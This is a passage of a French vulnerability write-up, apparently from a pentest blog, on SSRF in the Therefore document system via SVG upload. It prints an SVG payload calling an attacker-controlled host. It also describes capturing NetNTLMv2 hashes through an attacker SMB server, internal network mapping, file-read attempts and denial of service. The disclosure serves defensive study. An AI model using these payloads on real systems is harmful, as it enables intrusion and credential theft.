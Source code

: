 La solution proposée par Therefore est vulnérable aux attaques SSRF de plusieurs manières.

#### Exploitation

##### Acces à une ressource distante

L'utilisation d'un fichier SVG illustre la possibilité de faire une requête `HTTP GET` par l'application vers un serveur contrôlé par l'attaquant.

![HTTP callback from remote victim application with a malicious SVG fichier.](/images/hacker-multinationale-via-file-upload-et-ssrf/screens/ssrf-2.png)

La capture d'écran ci-dessus illustre cette vulnérabilité SSRF à l'aide d'un fichier SVG (disponible ci-dessous).

```html
<svg width="500" height="500"
    xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
    <image xlink:href="http://IP-ATTAQUANT">
</svg>
```

##### Récupération d'empreinte de mot de passe

Dans un environnement Windows, il est possible de demander une ressource par un chemin particulier. Il est possible de coupler
cette fonctionnalité par le biais de cette faiblesse `SSRF` afin de **rediriger le compte local de la machine hébergeant l'application vers le serveur SMB de l'attaquant**.

Ce dernier recevra l'empreinte `NetNTLMv2` de ce compte de service.

Dans la capture d'écran ci-dessous, un serveur `SMB` a été déployé sur la machine attaquante. En interprétant le fichier SVG, le serveur attaquant collecte le condensat du compte machine `FR********4$`.

![Receiving NetNTLMv2 local machine account digest from the remote server.](/images/hacker-multinationale-via-file-upload-et-ssrf/screens/ssrf-3.png)

Ce condensat pourrait ensuite être relayé et/ou cassé afin **d'attaquer l'environnement Active Directory** du client initial.

##### Cartographie réseau interne

Cette vulnérabilité SSRF permet également à un attaquant de cartographier l'architecture interne du client (si celle ci communique avec Internet).

Sur la capture d'écran ci-dessous, il est possible d'atteindre le serveur `google.fr`. L'attaquant pourrait également utiliser la machine victime comme proxy pour **usurper son adresse IP publique**.

![Ifram google.fr](/images/hacker-multinationale-via-file-upload-et-ssrf/screens/ssrf-4.png)

Enfin, un attaquant est également en mesure d'effectuer les actions suivantes (non concluantes par manque de temps) :

- **Scan de ports** : il est possible de scanner les ports des machines sur le réseau.
- **Lecture de fichiers** : le plugin Aspose semble être protégé contre la lecture de fichiers (ex : capture ci-dessous.
Le service redirige vers le chargement du fichier `C:\Windows\win.ini` mais rien n'est affiché).
- **Déni de service** : un attaquant est en mesure de télécharger un document faisant référence à des images très volumineuses. Lors du traitement de cette image, la bibliothèque consomme de la mémoire et du temps pour traiter ces images.
